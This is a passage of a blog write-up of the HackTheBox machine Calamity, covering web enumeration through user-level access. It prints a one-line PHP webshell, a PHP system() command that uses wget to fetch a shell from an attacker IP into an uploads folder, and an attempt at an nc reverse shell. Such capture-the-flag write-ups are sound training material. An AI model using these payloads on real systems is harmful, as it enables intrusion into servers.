 ```yaml
---
title: "HackTheBox - WriteUp 7"
date: 2019-06-09T19:46:08+08:00
description: "HackTheBox 练手 - Calamity - ret2mprotect"
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Calamity

It just seems in Medium difficulty, however, it is really brainfuck in privilege escalation part.

## Before start

Nmap Scan: 80 and 22, Apache + SSH.

Gobuster Scan: /uploads(200), admin.php(200)

# Normal User

## Reverse shell

Access `admin.php` and you will find the `admin` with password in the comment of the webpage source code, which is: `password is:skoupidotenekes`

![lgnpage](https://alicdn.kmahyyg.xyz/asset_files/htb7/calamity-1.webp)

After you login, you've been told that this page could execute and php code. The question is that this method is submitted via URL params, so you can't submit too long code.

The shortest php webshell is: 

```php
<?=`$_GET[1]`?>
```

Just fired up my AntSword, generate a shell, and then detect if there's `wget`. It works. So write a php command to let it download the shell from the http server, 
Note: The `/var/www/html` is RO-only, you can only upload to `uploads/`

```php
<?php system("wget http://10.10.16.37:8080/te26st.php -o uploads/te26st.php");?>
```

After that, try `nc` to get a reverse shell. But after connection established, it get killed immediately. So what should we do? Check the `/etc/passwd` and found a normal user called `xalvas`, try to access to the home, succeeded. Then we got `user.txt`. However, there's a `intrusions` folder here. Check the content, just logged that there's a crappy IPS which blacklisted some process to run.
